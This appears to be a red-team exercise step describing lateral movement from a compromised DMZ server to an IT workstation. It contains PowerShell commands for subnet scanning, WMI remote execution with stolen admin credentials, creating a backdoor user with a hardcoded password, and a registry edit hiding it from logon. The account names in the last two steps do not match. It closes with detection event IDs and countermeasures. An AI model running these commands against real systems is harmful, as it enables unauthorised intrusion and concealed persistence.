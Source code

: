 ﻿# Step 3: Lateral Movement from DMZ Web Server to IT Workstation via WMI

## Objective

Leverage valid credentials from the DMZ web server to scan internal IT subnet and execute remote commands on an IT workstation using WMI. Establish local persistence via a hidden user account.

## Context

-   DMZ web server has been compromised in a prior step.
    
-   Valid IT admin credentials acquired via credential dump or insider inject.
    
-   Goal is to identify reachable IT hosts, move laterally via WMI, and maintain access through a hidden local user account.

## Execution

### 1. Scan Internal IT Subnet from DMZ

##### PowerShell ICMP Sweep:
```powershell
1..254 (*Start a loop from 1 to 254*) | ForEach-Object {
  $ip = "192.168.1.$_" (*Build an IP like `192.168.1.1`, `192.168.1.2`, etc.*)
  if (Test-Connection -ComputerName $ip -Count 1 -Quiet) (*Ping the IP (quietly, just yes/no*)){
    Write-Output "$ip is up" (*If the IP responds, print it*)
  }
}
```

### 2. Execute Remote Command on IT Workstation via WMI

-   Use PowerShell and valid credentials to trigger a remote command:
    

powershell

`Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami" -ComputerName it-workstation01 -Credential $itAdmin` 

### 3. Establish Persistence via Hidden Local User

-   From the same session or compromised host:

powershell

`$Password = ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force
New-LocalUser "svc_diag" -Password $Password -Description "Service Recovery Agent"
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "svc_diag"` 

### 4. Hide the Account in Registry

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v svc_netlog /t REG_DWORD /d 0 /f` 

## Result

-   Internal IT asset discovered and reached from the DMZ.
    
-   Remote command execution via WMI confirmed.
    
-   Hidden persistence established via new local user.
    
-   Red Team positioned to pivot deeper into the IT network.

## Detection Opportunities

| Event ID | Description |
|--|--|
| 4688 | Process creation via WMI |
| 4624 | Remote login to IT workstation |
|4720|New local user creation|
| 13 | Registry modification |
| PowerShell Logging | Remote WMI usage, account creation |


#### How to create the hidden user:
    
    -   Create a local user with PowerShell
        
    -   Add to RDP group
        
    -   Hide the user via registry edits

## Defensive Countermeasures

-   Block WMI/PowerShell remoting across DMZ and internal networks.
    
-   Alert on lateral tool use from DMZ (Invoke-WmiMethod, PsExec, etc.).
    
-   Monitor creation of local accounts and registry changes for hidden users.
    
-   Enforce firewall rules limiting access from DMZ to internal subnets.
